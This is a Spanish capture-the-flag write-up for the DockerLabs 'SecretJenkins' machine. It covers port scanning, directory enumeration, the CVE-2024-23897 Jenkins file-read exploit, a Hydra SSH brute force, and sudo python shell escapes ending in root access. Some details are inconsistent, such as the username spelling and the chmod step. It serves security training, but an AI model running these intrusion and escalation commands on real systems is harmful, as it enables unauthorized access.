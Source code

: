 # Writeup-Maquina-SecretJenkins-
# DOCKERLABS | [Secretjenkis](https://dockerlabs.es/#/)

# ANTES DE COMENZAR
#### Haremos un PING para commprobar la conexion
<br>
<img src="https://github.com/user-attachments/assets/95bba54f-bc89-48af-a70e-f6445d243f25">

# ESCANEO DE PUERTOS 
Usaremos NMAP para escaner los puertos
<br> <br>
![image](https://github.com/user-attachments/assets/ee7ef15c-a0e5-4fa3-8514-eaf1d18e09b4)
<br>
Encontraremos abiertos los puertos: 22 y 8080
<br>
Haremos un analisis de vulnerabilidades
<br> <br>
![image](https://github.com/user-attachments/assets/b5464808-b401-4eeb-964b-c2ada6dbb8fe)

# PANEL DE LOGIN
Entraremos al servicio montado en el puerto 8080
<br> <br>
![image](https://github.com/user-attachments/assets/5194f976-ffbe-4684-bfc6-56cc339545d5)
<br>
Tendremos un panel de login <br>
Probaremos con las credenciales habituales y hacer SQL Injection pero vemos que no funciona
<br>

# BUSQUEDA DE SUB-DOMINIOS
Buscaremos sub-dominios para ver si encontramos algun otro acceso 
<br> 
Para este caso use el comando:
<br>
`gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -k -t 20 -x html,php,txt,php.bak`
<br>
Y pude encontrar los siguientes sub-dominios
<br> <br>
![image](https://github.com/user-attachments/assets/058cd243-8b4f-4113-bdf7-61e24d1ffc46)
<br>
Entraremos a `/robots.txt` y vemos que hace referencia hacia `build` por lo que luego vemos que tenemos un sub-dominio llamado `/builds`

# BUSQUEDA DE EXPLOIT
Al ingresar a <TARGET_IP>:8080/builds veremos lo siguiente
<br> <br>
![image](https://github.com/user-attachments/assets/2dd79dc6-7c42-4947-98a3-70565d91ec09)
<br>
En donde vemos abajo a la derecha la <b>Version</b> utilizada por lo tanto buscaremos algun exploit para este
<br>
Buscaremos y encontraremos el siguiente exploit <br>
[CVE-2024-23897](https://github.com/godylockz/CVE-2024-23897)
<br>
Este exploit nos permitira leer archivos que esten en el sistema de archivos del servidor Jenkins.
<br>
Clonaremos el repositorio y le daremos privilegios con `chmod +x jenkins_fileread.py `
# EJECUTANDO EXPLOIT
Una vez ejecutado el exploit podremos leer el archivo `passwd` contenida en la carpeta `/etc` para saber que usuarios hay dentro del sistema
<br> <br>
![image](https://github.com/user-attachments/assets/c8c3f91a-3d79-44d0-8748-27e9b85afbdf)
<br>
Veremos entonces que dentro de este archivo tenemos 4 usuarios: <br>
<b>root</b> <br>
<b>jenkins</b> <br>
<b>bobby</b> <br>
<b>pinguinito</b> <br>

# FUERZA BRUTA CON HYDRA
Teniendo estos usuarios usaremos la herramienta HYDRA para ver si podemos encontrar la contraseña
<br> <br>
![image](https://github.com/user-attachments/assets/65d58cfe-bba0-4671-9fb6-a44b83ae0351)
<br>
Descubriremos las credenciales del usuario BOBBY <br>
Usuario: boby <br>
CONTRASEÑA: chocolate

# ACCESO AL SERVICIO SSH (PUERTO 22)
Pondremos las credenciales obtenidas
<br>
`ssh bobby@172.17.0.2`
<br>
### SI NOS MUESTRA EL SIGUIENTE WARNING DEBEREMOS HACER LO SIGUIENTE
![image](https://github.com/user-attachments/assets/25b97a85-bd08-4262-8684-2a9619f8ee80)
<br>
Colocar el siguiente comando que se nos indica <br>
`ssh-keygen -f '/root/.ssh/known_hosts' -R '172.17.0.2'`
<br>
Una vez hecho esto volveremos a colocar las credenciales para acceder al servicio SSH

# ESCALADA DE PRIVILEGIOS PARTE 1
Una vez dentro haremos un `sudo -l` para ver los privilegios que tenemos como usuario y veremos que podemos ejecutar el siguiente comando como si fueramos el usuario pinguino:
<br>
`/usr/bin/python3`
<br> <br>
![image](https://github.com/user-attachments/assets/7ca66ed8-5955-4092-858c-6dab23248cd0)
<br>
Por lo que podremos ejecutar una shell en python como usuario pinguino por lo tanto colocaremos el siguiente comando
<br>
`sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'`
<br>
Haremos un `whoami` para verificar si efectivamente ahora somos el usuario pinguinito
<br> <br>
![image](https://github.com/user-attachments/assets/e99f7137-9599-40be-a30a-b8a2a2e7c06f)

# ESCALADA DE PRIVILEGIOS PARTE 2
Ahora que somos el usuario pinguinito volveremos hacer un `sudo -l` para ver si tiene nuevos privilegios y notamos que ahora tenemos tambien lo siguiente
<br> <br>
![image](https://github.com/user-attachments/assets/7dc96153-fe46-4112-9e14-bc17fc950c76)
<br>
Tendremos un archivo `script.py` para poder ejecutar por lo tanto veremos que contiene este archivo con `cat /opt/script.py`
<br> 
Y veremos que su objetivo es copiar un archivo de una ubicación a otra usando la librería shutil de Python por lo tanto vamos a editar el archivo para luego ejecutar una shell como usuario root
<br>
Primero nos ubicaremos en la carpeta /opt/ y verificaremos si tenemos permisos de escritura en el archivo:
<br>
Para esto usaremos el comando `ls -l script.py` <br>
Veremos que nada mas tenemos privilegios de lectura (r), por lo tanto vamso a modificarlo:
<br>
Usaremos el comando `chmod 744 script.py` de esta forma le daremos unicamente privilegios de escritura al usurio "Pinguinito"
<br> 
Modificaremos el archivo que va a creear una shell una vez ejecutado
<br>
### Comandos: 
`echo "import os" > /opt/script.py`  -->  importa el módulo os, el cual permite interactuar con el sistema operativo <br>
`echo 'os.system("bash")' >> /opt/script.py` --> ejecuta una shell de bash cuando se ejecuta el script <br>
<br>
Una vez hecho esto ejecutaremos el script para crear una shell como usuario root
`sudo /usr/bin/python3 /opt/script.py` 
<br>
<b>ENHORABUENA SOMOS USUARIO ROOT !!</b>
